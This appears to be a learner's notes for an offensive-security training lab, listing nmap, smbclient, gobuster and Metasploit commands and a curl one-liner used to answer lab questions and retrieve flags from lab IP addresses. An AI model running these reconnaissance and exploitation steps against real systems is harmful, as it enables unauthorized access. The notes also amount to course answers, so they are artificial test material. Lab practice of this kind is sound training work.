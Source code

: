 
## Skills Assessment
```sh
curl -s http://178.62.99.180:30113/keys.php -X POST -d "key=$(curl -s http://178.62.99.180:30113/keys.php -X POST | xxd -p -r)"
```
# GETTING STARTED
## Service Scanning
 Perform an Nmap scan of the target. What service is running on port 8080? (two words)
 ```sh
nmap -sV -sC 10.129.42.254 
 ```

List the SMB shares available on the target host. Connect to the available share as the bob user. Once connected, access the folder called 'flag' and submit the contents of the flag.txt file.
```sh
smbclient -N -L \\\\10.129.42.254\\users
smbclient  \\\\10.129.42.254\\users
smbclient -U bob  \\\\10.129.42.254\\users
```

```
get,cd,ls
```
## Web Enumeration
Try running some of the web enumeration techniques you learned in this section on the server above, and use the info you get to get the flag.
```sh
gobuster -u http://178.62.44.230:30819/ -w ~/Documents/File/SecLists/Discovery/Web-Content/URLs/urls-Drupal-7.20.txt 
```
## Public Exploits
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```sh
msfconsole
```

```msf
search simple backup
use 0
options
set RHOSTS 178.62.99.162
set RPORT 31276
run
```

```sh
cat /home/wowon/.msf4/loot/20220213123810_default_178.62.99.162_simplebackup.tra_425837.txt
```
